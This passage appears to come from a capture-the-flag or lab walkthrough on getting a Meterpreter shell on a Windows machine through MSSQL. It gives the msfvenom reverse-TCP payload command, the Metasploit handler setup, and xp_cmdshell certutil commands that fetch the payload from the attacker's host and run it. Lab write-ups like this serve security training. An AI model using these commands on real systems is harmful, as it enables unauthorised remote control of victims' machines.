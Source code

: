 A **Meterpreter** shell gives us full post-exploitation capabilities!

---

### Generating the Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_TUN0_IP LPORT=4444 -f exe -o shell.exe
```

🎓 **Payload Breakdown:**

- `windows/x64/meterpreter/reverse_tcp` - A reverse TCP connection (victim connects to us)  
- `LHOST` - Your Kali IP (where to connect back)  
- `LPORT` - Port to connect back on  
- `-f exe` - Output format (Windows executable)

---

### Setting Up the Listener

Start Metasploit:

```bash
msfconsole -q
```

Configure the handler:

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
set ExitOnSession false
exploit -j
```

🎓 **Why `exploit -j`?**  
The `-j` flag runs the handler as a background job. This way, we can continue using `msfconsole` for other tasks while waiting for connections.

---

### Deploying the Payload

Upload via MSSQL:

```sql
xp_cmdshell "certutil -urlcache -split -f http://YOUR_TUN0_IP:8000/shell.exe C:\Users\Public\shell.exe"
```

Execute it:

```sql
xp_cmdshell "C:\Users\Public\shell.exe"
```
